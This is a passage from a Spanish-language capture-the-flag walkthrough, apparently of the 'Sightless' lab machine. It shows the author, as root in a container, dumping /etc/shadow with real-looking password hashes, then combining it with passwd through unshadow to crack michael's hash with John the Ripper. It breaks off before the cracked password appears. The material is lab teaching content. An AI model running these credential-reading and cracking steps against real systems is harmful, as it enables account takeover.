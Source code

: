 ### michael - sightless

No hay nada interesante en este contenedor, a excepción de los usuarios:

```bash
root@c184118df0a6:/var/lib/sqlpad# ls -la /home
total 20
drwxr-xr-x 1 root    root    4096 Aug  6 11:23 .
drwxr-xr-x 1 root    root    4096 Aug  2 09:30 ..
drwxr-xr-x 2 michael michael 4096 Aug  9 09:42 michael
drwxr-xr-x 1 node    node    4096 Aug  9 09:42 node
```

Como somos root, podemos ver el archivo `shadow` con las contraseñas hasheadas y al verlo podremos notar que este usuario tiene una contraseña acá

```bash
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

Vamos a copiarnos este archivo y el `passwd` para intentar hacerle fuerza bruta al hash con la herramienta john. Primero con los dos archivos ya le hacemos un `unshadow`

```bash
❯ unshadow  passwd shadow 
... [snip]
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:1001:1001::/home/michael:/bin/bash
```

Ahora, almacenamos este hash en un archivo y al pasárselo a john nos lo crackeara en poco tiempo. Pasándole el parámetro `--show` junto al hash nos mostrará lo que encontró:
